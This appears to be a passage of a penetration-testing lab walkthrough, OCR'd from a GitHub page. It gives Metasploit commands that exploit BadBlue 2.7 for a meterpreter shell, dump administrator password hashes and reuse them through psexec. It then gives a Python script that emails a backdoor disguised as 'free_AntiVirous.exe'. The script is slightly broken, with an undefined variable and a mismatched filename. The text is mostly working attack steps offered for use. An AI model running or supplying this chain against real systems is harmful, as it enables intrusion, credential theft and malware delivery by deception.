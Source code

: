 ```bash
~$ searchsploit BadBlue 2.7 # Gives a good answer .. Lets go back to Metasploit ..
# =========================================================================
# 7) attacking the vulnerable app
msf6 auxiliary(server/socks_proxy)> search BadBlue # We Choosed 1
# We Dont have direct access to the demo1 so we will use bind shell ..
msf6 exploit(windows/http/badblue_passthru) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/http/badblue_passthru) > set RHOSTS <demo1 IP Address>
msf6 exploit(windows/http/badblue_passthru) > set LPORT 9999
msf6 exploit(windows/http/badblue_passthru) > run
# =========================================================================
# 8) Some persistence:
meterpreter> pgrep explorer.exe # That should gives you a number to migrate ..
meterpreter> migrate 2948 # You are a New Person Now ! :D
meterpreter> hashdump # That should gives you an admin hash, Copy it and Background this sesstion .
msf6 exploit(windows/http/badblue_passthru) > search psexec
msf6 exploit(windows/smb/psexec) > show options
msf6 exploit(windows/smb/psexec) > set payload windows/meterpreter/bind_tcp
msf6 exploit(windows/smb/psexec) > set LPORT 7777
msf6 exploit(windows/smb/psexec) > set RHOSTS <demo1 IP Address>
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass <TheHashThatYouJustDump>
msf6 exploit(windows/smb/psexec) > exploit
#======================================================================
# If EveryThing Goes Right .. We Wont need other sesstion now ..
```

```python
# =========================================================================
# ***email_sinding.py*** script that will utilize the smtp lib to sending for us
# If there something you dont understand or there is an error, Use ChatGPT
# =========================================================================
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
fromaddr = "attacker@fake.com"
toaddrr = "pop.demo@local"
# instance of MIMEMultipart
msg = MIMEMultipart()
msg ["From"] = fromaddr
msg ["To"] = toaddrr
msg ["Subject"] = "subject of email"
# string to store the body of email.
body = "Body_of_email"
msg .attach(MIMEText(message, "plain"))
# Opeining the file to be sent
fileName = "free_AntiVirous.exe"
attachment = open('/root/backdoor.exe', 'rb')
# Instance of MIMEBase and named as p
p = MIMEBase('application', 'octet-stream')
# To Change the payload to encoded form
p.set_payload((attachment).read())
# encode into base64
encoders.encode_base64(p)
p.add_header ("content-Disposition","attachment; filename= %s" %filename)
# attach p to msg ..
msg.attach(p)
# Creating SMTP Sesstion
s = smtplib.SMTP('demo.target.local', 25)
text = msg.as_string()
# sending
s.sendmail(fromaddr, toaddrr, text)
s.quit()
```